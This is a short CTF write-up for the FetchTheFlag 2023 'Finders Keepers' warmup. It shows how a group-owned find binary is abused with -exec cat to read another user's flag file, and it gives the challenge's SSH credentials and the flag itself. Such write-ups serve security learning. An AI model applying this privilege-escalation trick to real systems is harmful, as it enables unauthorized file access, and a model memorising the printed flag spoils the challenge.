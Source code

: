 ```yaml
---
title: FetchTheFlag CTF 2023-Warmup-FindersKeepers
date: 2023-10-28 
categories: [Writeups, FetchTheFlag CTF 2023]
tags: [CTF,Warmup,PrivEsc,bash]
---
```


# Finders Keepers
## Description
<sup>Author: @JohnHammond</sup><br>
Patch found a flag! He stored it in his home directory... should be able to keep it?

Press the Start button in the top-right to begin this challenge.<br>
Connect with:<br>
	`Password is "userpass"`<br>
	`ssh -p 31380 user@challenge.ctf.games`<br>
## Solution
1. connect ssh `ssh -p 31380 user@challenge.ctf.games` with `"userpass"` password.<br>`user@finders-keepers-b930cde70263f2f9-58d4447d9d-zwqt7:~$ `
2. According to the description, There is a flag in `patch/` home directory. So I need to find commands that's in `'patch' group` to access files inside.
```bash 
user@finders-keepers-b930cde70263f2f9-58d4447d9d-zwqt7:~$ find / -group patch -type f 2>/dev/null
/usr/bin/find
/home/patch/.bash_logout
/home/patch/.profile
/home/patch/.bashrc
/home/patch/flag.txt
```
3. I found **`find`** command that can access `flag.txt`. I run this command to read `flag.txt`.
```bash 
user@finders-keepers-b930cde70263f2f9-58d4447d9d-zwqt7:~$ find . -exec /bin/cat /home/patch/flag.txt \;
flag{e4bd38e78379a5a0b29f047b91598add}
```

> Flag: flag{e4bd38e78379a5a0b29f047b91598add}
{: .prompt-tip }